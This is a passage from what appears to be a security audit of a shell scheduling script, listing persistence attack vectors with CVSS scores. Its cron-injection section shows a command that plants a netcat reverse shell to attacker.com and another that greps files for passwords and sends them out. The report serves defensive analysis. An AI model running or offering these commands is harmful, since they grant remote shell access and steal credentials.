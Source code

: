 **Impact:**
- Persistent code execution
- Configuration tampering
- Logic bypass
- Credential theft

---

## 5. Persistence Mechanisms

### 5.1 Cron Job Injection

**Attack Vector ID:** AV-PM-001  
**Severity:** HIGH  
**CVSS Score:** 8.6 (AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)  
**Exploitability:** Easy

**Technical Details:**
Attackers can leverage the scheduling functionality to create persistent access:

**Exploitation Pathways:**
1. **Scheduled Backdoor Installation:**
   ```bash
   # Use scheduling to install persistent backdoor
   ./schedule_with_note.sh 1 "echo '* * * * * nc -e /bin/bash attacker.com 4444' | crontab -" session:0
   ```

2. **Periodic Credential Harvesting:**
   ```bash
   # Schedule regular credential extraction
   ./schedule_with_note.sh 60 "grep -r 'password' /home/user/ | nc attacker.com 4444" session:0
   ```

3. **System Monitoring Bypass:**
   ```bash
   # Schedule commands to run during low-monitoring periods
   ./schedule_with_note.sh 3600 "malicious_payload > /dev/null 2>&1" session:0
   ```

**Attack Prerequisites:**
- Access to schedule_with_note.sh
- Understanding of cron syntax
- Knowledge of system monitoring patterns

**Impact:**
- Persistent system access
- Scheduled data exfiltration
- Ongoing system compromise
- Evasion of monitoring systems

### 5.2 Background Process Persistence

**Attack Vector ID:** AV-PM-002  
**Severity:** HIGH  
**CVSS Score:** 7.8 (AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)  
**Exploitability:** Easy

